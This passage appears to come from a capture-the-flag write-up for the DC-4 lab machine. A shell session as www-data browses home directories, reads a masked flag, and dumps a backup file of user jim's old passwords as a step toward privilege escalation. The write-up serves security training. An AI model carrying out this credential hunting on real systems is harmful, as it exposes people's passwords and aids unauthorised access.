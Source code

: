 ## get first flag
```bash
www-data@dc-4:/home$ cd charles
cd charles
www-data@dc-4:/home/charles$ ls
ls
www-data@dc-4:/home/charles$ ls -lsah
ls -lsah
total 20K
4.0K drwxr-xr-x 2 charles charles 4.0K Apr  7  2019 .
4.0K drwxr-xr-x 5 root    root    4.0K Apr  7  2019 ..
4.0K -rw-r--r-- 1 charles charles  220 Apr  6  2019 .bash_logout
4.0K -rw-r--r-- 1 charles charles 3.5K Apr  6  2019 .bashrc
4.0K -rw-r--r-- 1 charles charles  675 Apr  6  2019 .profile
www-data@dc-4:/home/charles$ cd ..
cd ..
www-data@dc-4:/home$ cd jim
cd jim
www-data@dc-4:/home/jim$ ls
ls
backups
local.txt
mbox
test.sh
www-data@dc-4:/home/jim$ cat local.txt
cat local.txt
3******************************9
```

## privilege escalation
Looking on the system reveals a file with old passwords of the user `jim`
```bash
www-data@dc-4:/usr/share/nginx/html$ cd /home
cd /home
www-data@dc-4:/home$ cd jim
cd jim
www-data@dc-4:/home/jim$ ls
ls
backups
local.txt
mbox
test.sh
www-data@dc-4:/home/jim$ cd backups
cd backups
www-data@dc-4:/home/jim/backups$ ls -lsah
ls -lsah
total 12K
4.0K drwxr-xr-x 2 jim jim 4.0K Apr  7  2019 .
4.0K drwxr-xr-x 3 jim jim 4.0K Aug  3 06:53 ..
4.0K -rw-r--r-- 1 jim jim 2.0K Apr  7  2019 old-passwords.bak
www-data@dc-4:/home/jim/backups$ head old-passwords.bak
head old-passwords.bak
000000
12345
iloveyou
1q2w3e4r5t
1234
123456a
qwertyuiop
monkey
123321
dragon
```